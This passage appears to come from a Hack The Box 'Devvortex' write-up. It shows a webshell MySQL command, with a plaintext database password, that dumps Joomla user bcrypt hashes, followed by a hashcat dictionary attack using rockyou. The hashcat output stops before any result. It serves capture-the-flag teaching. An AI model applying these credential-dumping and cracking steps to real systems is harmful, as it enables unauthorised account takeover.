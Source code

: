 ```bash
sd4fg_workflow_stages
sd4fg_workflow_transitions
sd4fg_workflows


[webshell]> mysql -u lewis -p'P4ntherg0t1n5r3c0n##' -e 'use joomla;select username,password from sd4fg_users;'
username        password
lewis   $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
logan   $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```

Here I got `logan`'s password hash.
Based on hash-identifier, it's bcrypt hash.

![](attachments/devvortex_13.png)

Let's crack it with `hashcat`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 3200 logan.bcrypt /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1437/2939 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache building /usr/share/wordlists/rockyou.txt.gz: 33553434 byteDictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.
```